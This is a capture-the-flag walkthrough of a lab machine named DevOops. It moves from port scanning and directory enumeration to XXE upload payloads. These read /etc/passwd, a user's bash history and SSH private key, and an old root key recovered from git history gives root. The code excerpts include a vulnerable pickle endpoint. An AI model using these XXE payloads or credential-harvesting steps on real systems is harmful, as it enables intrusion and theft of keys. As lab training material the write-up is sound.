









# MACHINE CHALLENGE: DEVOOPS

## Challenge Description

##### Own system
Type below the hash that is inside the root.txt file in the machine. The file
can be found under /root on Linux machines and at the Desktop of the
Administrator on Windows.

##### Own User
Type below the hash that is inside the user.txt file in the machine. The file
can be found under /home/{username} on Linux machines and at the Desktop of the
user on Windows. 

```
IP Address: 10.10.10.91
OS: Linux
```

### PORTSCANNING w/ NMAP

As always, we start with a `nmap` portscan..

```
$ sudo nmap -A -sS -T4 10.10.10.91

Starting Nmap 7.60 ( https://nmap.org ) at 2018-09-02 16:44 EDT
Nmap scan report for 10.10.10.91
Host is up (0.46s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 42:90:e3:35:31:8d:8b:86:17:2a:fb:38:90:da:c4:95 (RSA)
|   256 b7:b6:dc:c4:4c:87:9b:75:2a:00:89:83:ed:b2:80:31 (ECDSA)
|_  256 d5:2f:19:53:b2:8e:3a:4b:b3:dd:3c:1f:c0:37:0d:00 (EdDSA)
5000/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=9/2%OT=22%CT=1%CU=30695%PV=Y%DS=2%DC=T%G=Y%TM=5B8C4C22
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=107%TI=Z%CI=I%TS=B)SEQ(SP=10
OS:1%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=B)OPS(O1=M54BST11NW7%O2=M54BST11NW7%O3
OS:=M54BNNT11NW7%O4=M54BST11NW7%O5=M54BST11NW7%O6=M54BST11)WIN(W1=7120%W2=7
OS:120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54BNNSNW
OS:7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   410.44 ms 10.10.16.1
2   204.31 ms 10.10.10.91

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.44 seconds
```

So we have port 22 (SSH) and 5000 running something called `Gunicorn`? From
the name of the machine, I assume it is some sort of software used for
DevOps.

### GUNICORN

```
Gunicorn 'Green Unicorn' is a Python WSGI HTTP Server for UNIX. It's a
pre-fork worker model. The Gunicorn server is broadly compatible with
various web frameworks, simply implemented, light on server resources, and
fairly speedy.

https://gunicorn.org/
```

Apparently this is a Web Server Gateway Interface for web servers to forward
requests to web applications or frameworks written in Python.



The "temp" page references a script `feed.py` and also the website
`dev.solita.fi`.

We also observe that the main page is actually a redirect to the URL
`http://10.10.10.91/feed`.

### DIRECTORY ENUMERATION

Let's see what other things we can find aside from `/feed`..

```
$ gobuster -u 10.10.10.91:5000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.91:5000/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 302,307,200,204,301
=====================================================
/feed (Status: 200)
/upload (Status: 200)
```

`gobuster` found us a new directory that seems to allow us to upload a
payload.



### UPLOAD

The `/upload` interface appears to be asking for a `.xml` file, so tried
giving it a simple helloworld one, but that resulted in an `Internal Server
Error`.

```
$ cat hello.xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<xml>
  <msg>hello world</msg>
</xml>
```



I wonder what is the interface is expecting?

Going back to the initial `/upload` page, we notice it says

```
XML elements: Author, Subject, Content
```

.. so perhaps there is some XML validation going on to ensure our uploaded
`xml` contains these elements? Let's modify our `xml` to the following and
give it a try..

```
$ cat hello2.xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<xml>
  <msg>hello world</msg>
  <Author>hello author</Author>
  <Subject>hello subject</Subject>
  <Content>hello content</Content>
</xml>
```



Nice! That seems to have worked. We also see some more information leaked..
1. appears our xml was uploaded to `/uploads/hello2.xml`, 2. there is a user
on the system called `roosa` and 3. there is some deploy directory called
`/home/roosa/deploy/src`.

For fun, let's see if we can access our just uploaded `xml` file at
`/uploads/hello2.xml`..



.. and we can!

Now let's figure out how to upload a payload.

### XML EXTERNAL ENTITY

Came across a vulnerability in XML called `XXE` (XML External Entity) that
looks like a promising exploit to try on the XML processor on our target
system..

```
Attackers can exploit vulnerable XML processors if they can upload XML or
include hostile content in an XML document, exploiting vulnerable code,
dependencies or integrations.

https://www.owasp.org/index.php/Top_10-2017_A4-XML_External_Entities_(XXE)
```

Found an example of `XXE` that allows us to read files on the target
system..

```
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///dev/random" >]><foo>&xxe;</foo>
```

Tailoring our `hello world` XML from before to include this attack, we get..

```
$ cat hello3.xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<xml>
  <msg>hello world</msg>
  <Author>hello author &xxe;</Author>
  <Subject>hello subject</Subject>
  <Content>hello content</Content>
</xml>
```

Uploading it gives us a dump of `/etc/passwd` on the target system!



Now let's see what other files we can discover!

### OWNING USER

Can we make an educated guess and assume our user flag is at
`/home/roosa/user.txt`? (we've seen the user `roosa` referenced earlier and
we've also seen it in the `/etc/passwd` dump).

Modifying our hello world to dump that file instead..

```
$ cat hello4.xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///home/roosa/user.txt" >]>
<xml>
  <msg>hello world</msg>
  <Author>hello author &xxe;</Author>
  <Subject>hello subject</Subject>
  <Content>hello content</Content>
</xml>
```



.. and we got the user flag! What other interesting things can we find out
about this user that might help us gain root?

Let's peak into their `.bash_history` file to see if we can glean any info
based on their recent work.

```
$ cat hello5.xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///home/roosa/.bash_history" >]>
<xml>
  <msg>hello world</msg>
  <Author>hello author &xxe;</Author>
  <Subject>hello subject</Subject>
  <Content>hello content</Content>
</xml>
```



Two things we find of interest here: 1. they recently setup RSA key
(presumably to do their `git` commits) and 2. there seems to be a hardcoded
"pin" `WERKZEUG_DEBUG_PIN=15123786` that could be useful.

Let's see if we can access their RSA private key..

```
$ cat hello6.xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >]>
<xml>
  <msg>hello world</msg>
  <Author>hello author &xxe;</Author>
  <Subject>hello subject</Subject>
  <Content>hello content</Content>
</xml>
```



With the help from `https://www.samltool.com/format_privatekey.php`, we
now have a file `id_rsa` that should work for us to `ssh` into the box as
`roosa`.

```
$ mv id_rsa id_rsa.roosa
$ chmod 600 id_rsa.roosa
$ ssh roosa@10.10.10.91 -i id_rsa.roosa
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

Last login: Mon Sep  3 01:35:37 2018 from 10.10.15.253
roosa@gitter:~$
```

And we're in!!!

### OWNING SYSTEM

Looking inside the `~/work/blogfeed/src/feed.py` script, we discover a new
endpoint `/newpost` and also some code to enable a `/debugconsole` endpoint.
Not sure if any of these are important.

```
@app.route("/newpost", methods=["POST"])
def newpost():
  # TODO: proper save to database, this is for testing purposes right now
  picklestr = base64.urlsafe_b64decode(request.data)
#  return picklestr
  postObj = pickle.loads(picklestr)
  return "POST RECEIVED: " + postObj['Subject']


## TODO: VERY important! DISABLED THIS IN PRODUCTION
#app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')
# TODO: Replace run-gunicorn.sh with real Linux service script
# app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')
```

Let's examine that `.bash_history` file a little closer to see what else
`roosa` has been doing..

```
$ scp -i id_rsa.roosa roosa@10.10.10.91:/home/roosa/.bash_history bash_history.roosa
```

We find some interesting references to authentication keys, adding debug
support, PINs and the need to remove it before production..

```
git add resources/integration/authcredentials.key
git commit -m 'add key for feed integration from tnerprise backend'
git commit -m 'Debug support added to make development more agile.'
git commit -m 'Set PIN to make debugging faster as it will no longer change
every time the application code is changed. Remember to remove before produc
tion use.'
```

Grabbing the `authcredentials.key` from the system, what do we do with it?
Tried logging in as root with that certificate, but to no avail.

```
$ scp -i id_rsa.roosa roosa@10.10.10.91:/home/roosa/work/blogfeed/resources/integration/authcredentials.key authcredentials.key.current
$ ssh root@10.10.10.91 -i authcredentials.key.current
root@10.10.10.91's password:
```

Looking back at the `.bash_history`, something in particular looks
interesting regarding the authentication key..

```
git add resources/integration/authcredentials.key
git commit -m 'reverted accidental commit with proper key'
git push
```

Since the "developer" makes the reference that he needs to revert the change
to the "proper" key, what if we looked through his/her `git` commit history
to see what was changed?

```
roosa@gitter:~/work/blogfeed$ git log --oneline
7ff507d Use Base64 for pickle feed loading
26ae6c8 Set PIN to make debugging faster as it will no longer change every time the application code is changed. Remember to remove before production use.
cec54d8 Debug support added to make development more agile.
ca3e768 Blogfeed app, initial version.
dfebfdf Gunicorn startup script
33e87c3 reverted accidental commit with proper key
d387abf add key for feed integration from tnerprise backend
1422e5a Initial commit
```

A quick diff between commits when the "developer" fixed his/her error with
the wrong key indeed shows a different private key was committed.

```
roosa@gitter:~/work/blogfeed$ git diff d387abf 33e87c3
diff --git a/resources/integration/authcredentials.key b/resources/integration/authcredentials.key
index 44c981f..f4bde49 100644
--- a/resources/integration/authcredentials.key
+++ b/resources/integration/authcredentials.key
```

So let's pop back in time to `d387abf` and see what we can do with the
"before" key..

```
$ git checkout d387abf
Note: checking out 'd387abf'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by performing another checkout.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -b with the checkout command again. Example:

  git checkout -b <new-branch-name>

HEAD is now at d387abf... add key for feed integration from tnerprise backend
```

Grabbing the key and attempting to use it to authenticate as root..

```
$ scp -i id_rsa.roosa roosa@10.10.10.91:/home/roosa/work/blogfeed/resources/integration/authcredentials.key authcredentials.key.old
$ ssh root@10.10.10.91 -i authcredentials.key.old
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

Last login: Mon Mar 26 06:23:48 2018 from 192.168.57.1
root@gitter:~# cat root.txt
d4fe1e7f7187407eebdd3209cb1ac7b3
```

.. worked!! Very cool. Should never be storing credentials in your source
repository.
